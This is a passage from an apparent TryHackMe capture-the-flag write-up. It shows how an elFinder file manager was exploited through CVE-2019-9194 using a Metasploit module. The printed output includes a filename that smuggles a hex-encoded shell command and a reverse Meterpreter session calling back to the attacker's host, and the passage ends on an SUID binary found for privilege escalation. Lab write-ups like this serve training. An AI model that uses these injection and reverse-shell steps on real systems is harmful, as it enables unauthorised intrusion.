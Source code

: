 We found `jose` and we success to log in.

We got redirected to `files.lookup.thm`, we add that to `/etc/hosts` again and login again.

![files](4.png)

Cliking the `i` icon gives us the version.

![version](5.png)

A quick search on google we find it has a command injection in php connector [CVE-2019-9194](https://nvd.nist.gov/vuln/detail/CVE-2019-9194).

## **Foothold**

We can use the metasploit module `exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`

```terminal
[msf](Jobs:0 Agents:0) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> set rhosts 10.10.85.166
rhosts => 10.10.85.166
[msf](Jobs:0 Agents:0) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> set vhost files.lookup.thm
vhost => files.lookup.thm
[msf](Jobs:0 Agents:0) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:0) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> run

[*] Started reverse TCP handler on 10.8.81.165:4444 
[*] Uploading payload 'kb9UJaZY.jpg;echo 6370202e2e2f66696c65732f6b6239554a615a592e6a70672a6563686f2a202e5250704c5038436e682e706870 |xxd -r -p |sh& #.jpg' (1944 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.RPpLP8Cnh.php) ...
[*] Sending stage (39927 bytes) to 10.10.85.166
[+] Deleted .RPpLP8Cnh.php
[*] Meterpreter session 2 opened (10.8.81.165:4444 -> 10.10.85.166:48582) at 2024-11-29 11:01:07 +0100
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

(Meterpreter 2)(/var/www/files.lookup.thm/public_html/elFinder/php) >
```

## **Privilege Escalation**

Running linpeas we find an SUID binary.

```terminal
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```
